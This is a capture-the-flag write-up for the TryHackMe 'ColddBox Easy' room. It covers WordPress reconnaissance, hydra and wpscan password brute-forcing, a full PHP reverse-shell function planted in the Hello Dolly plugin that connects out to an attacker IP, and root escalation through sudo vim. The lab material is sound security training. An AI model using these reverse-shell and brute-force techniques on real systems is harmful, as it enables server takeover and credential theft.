https://tryhackme.com/room/colddboxeasy
description:
Can you get access and get both **flags**?
Good Luck!.
By Marti from Hixec.
**Doubts and / or help in [Hixec Community](https://discord.gg/bMWXR6Z).**  
  _Thumbnail box image credits, designed by [Freepik](https://www.flaticon.com/authors/freepik) from [www.flaticon.es](https://www.flaticon.es/)_
  
  1. main website:
  
what we know:
- this is wordpress site
- someone left comment - user Sr Hott
- in source we have some link, possible that vulnerable  http://10.81.134.165/?p=1
- there is login form linked: http://10.81.134.165/wp-login.php

1. nmap scan:
```bash
nmap -p- -sS -sC -sV -A -T4 10.81.134.165
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4
OS details: Linux 4.4
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
2. wpscan without credentials as we don't have any credentials yet (you can create account here: https://wpscan.com/):
```bash
wpscan --detection-mode aggressive --url http://10.81.134.165:80
[+] URL: http://10.81.134.165/ [10.81.134.165]
[+] Started: Thu Jan  1 12:23:57 2026

Interesting Finding(s):

[+] XML-RPC seems to be enabled: http://10.81.134.165/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://10.81.134.165/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.81.134.165/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.1.31 identified (Insecure, released on 2020-06-10).
 | Found By: Atom Generator (Aggressive Detection)
 |  - http://10.81.134.165/?feed=atom, <generator uri="https://wordpress.org/" version="4.1.31">WordPress</generator>
 | Confirmed By: Opml Generator (Aggressive Detection)
 |  - http://10.81.134.165/wp-links-opml.php, Match: 'generator="WordPress/4.1.31"'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Aggressive Methods)
 Checking Config Backups - Time: 00:00:02 <==========================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:02

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Jan  1 12:24:04 2026
[+] Requests Done: 172
[+] Cached Requests: 2
[+] Data Sent: 42.987 KB
[+] Data Received: 59.769 KB
[+] Memory used: 227.238 MB
[+] Elapsed time: 00:00:07

```
3. searching for some directories:
```
feroxbuster -u 'http://10.81.134.165:80/' -w /usr/share/seclists/Discovery/Web-Content/big.txt -o result.json --json
```



Ok from /hidden we can read some message:
- probably C0ldd is administrator
- there is user Hugo 
- Hugo is waiting for message with password
- it is possible that we have also user Philip
more findings from feroxbuster scan:
- we have some plugin: akismet
- http://10.81.134.165/wp-admin/maint/
- from http://10.81.134.165/readme.html we know that PHP version is 5.2.4 and MySQL 5.0
4. searching for subdomains:
   ```bash
   ffuf -w /media/sf_wordlists/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt  -H "Host: FUZZ.colddbox.thm" -u http://colddbox.thm -mc 200 -fs 6847
   ```
   5. check wordpress version:

6. I have no idea what next so I will run some brutforce with discovered usernames.
- I created file **usernames** with: **c0ldd, hugo, philip** usernames, each in new line.
- I checked request in network tab of my browser. 
  
- request copied as curl looks like below:
```bash
curl 'http://colddbox.thm/wp-login.php' \
  --compressed \
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: http://colddbox.thm/wp-login.php' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://colddbox.thm' \
  -H 'Connection: keep-alive' \
  -H 'Cookie: wordpress_test_cookie=WP+Cookie+check' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  --data-raw 'log=test&pwd=password&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1'
```
how to 'translate' this request to hydra command:
```bash
hydra -l USER -P PASSLIST host http-post-form "URI:POST_DATA:FAIL_CONDITION"
```
we have list of users in file named **usernames**, hydra needs also http method specified in command as **http-post-form**:
```bash
hydra -L usernames -P PASSLIST host http-post-form "URI:POST_DATA:FAIL_CONDITION"
```
our POST body is: 
```bash
log=test&pwd=password&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1
```
so we need to replace our test and password with placeholders ^USER^ and ^PASS^:
```bash
log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1
```
our url is: http://colddbox.thm/wp-login.php. 
when I typed wrong password form prompted me ***"ERROR: The password you entered for the username c0ldd is incorrect." ***
When I tried with username test it prompted me: ***ERROR: Invalid username.***
I confirmed that all users: **philip, c0ldd, hugo** exists because for all of them "test" password returned ***"ERROR: The password you entered for the username {username} is incorrect.***
That's why I added **F=ERROR** as fail condition in hydra command:
complete command:
```bash
hydra -L usernames -P /usr/share/wordlists/rockyou.txt colddbox.thm http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1:F=ERROR"
```
as with many usernames it will take a longer time we can try one by one:
```bash
hydra -l hugo -P /usr/share/wordlists/rockyou.txt colddbox.thm http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1:F=ERROR"
```
As I am lazy and I like progress bars - another option I tried  is **wpscan password bruteforcing tool** - no need to specify users as the tool will discover users automatically, no need to specify fail condition as the tool is designed for wordpress, no need to specify how the request body looks like as it knows everything:
```bash
wpscan --url http://colddbox.thm/ --passwords /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt
```


Ok wpscan found password for **c0ldd** user. 

Password to ssh is different - it was not possible to login using the same password to ssh.
Ok, now we have access to wordpress admin panel, we know the version of wordpress: 4.1.31
searching in msfconsole:
search type:exploit wordpres
I tried but nothing worked...
I decided to check plugins.
We have **Hello Dolly** plugin installed. I can edit this plugin:

so I added php reverse shell code:

full code of plugin with added reverse shell function below:
```
<?php
// here is all dolly plugin staff
// ...
//  it ends with below line:
add_action( 'admin_head', 'dolly_css' );

// here is function I added
function run_shell_once() {

	// zabezpieczenie: uruchom tylko raz
	if (get_option('dolly_shell_ran')) {
		return;
	}
	update_option('dolly_shell_ran', 1);

	set_time_limit(0);
	$VERSION = "1.0";
	$ip = '[]';  // <-- Change it to your IP on tun0
	$port = 1234;             // <-- Your port
	$chunk_size = 1400;
	$write_a = null;
	$error_a = null;
	$shell = 'uname -a; w; id; /bin/sh -i';
	$daemon = 0;
	$debug = 0;

	if (function_exists('pcntl_fork')) {
		$pid = pcntl_fork();
		if ($pid == -1) {
			return;
		}
		if ($pid) {
			return;
		}
		if (posix_setsid() == -1) {
			return;
		}
		$daemon = 1;
	}

	chdir("/");
	umask(0);

	$sock = fsockopen($ip, $port, $errno, $errstr, 30);
	if (!$sock) {
		return;
	}

	$descriptorspec = array(
		0 => array("pipe", "r"),
		1 => array("pipe", "w"),
		2 => array("pipe", "w")
	);

	$process = proc_open($shell, $descriptorspec, $pipes);
	if (!is_resource($process)) {
		return;
	}

	stream_set_blocking($pipes[0], 0);
	stream_set_blocking($pipes[1], 0);
	stream_set_blocking($pipes[2], 0);
	stream_set_blocking($sock, 0);

	while (1) {
		if (feof($sock) || feof($pipes[1])) {
			break;
		}

		$read_a = array($sock, $pipes[1], $pipes[2]);
		stream_select($read_a, $write_a, $error_a, null);

		if (in_array($sock, $read_a)) {
			fwrite($pipes[0], fread($sock, $chunk_size));
		}

		if (in_array($pipes[1], $read_a)) {
			fwrite($sock, fread($pipes[1], $chunk_size));
		}

		if (in_array($pipes[2], $read_a)) {
			fwrite($sock, fread($pipes[2], $chunk_size));
		}
	}

	fclose($sock);
	fclose($pipes[0]);
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($process);
}

add_action('admin_init', 'run_shell_once'); //important to add this trigger
?>

```
one more but very imortant step - **ACTIVATE** plugin:

works:

Ok, I searched for interesting files. As we have wordpress installed first try is:
cat /var/www/html/wp-config.php

password was reused as I expected:

first flag is here:

first check: 
```
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp

```
Great looks like we have chmod and vim

we can use this: https://gtfobins.github.io/gtfobins/vim/#sudo and we have root flag!
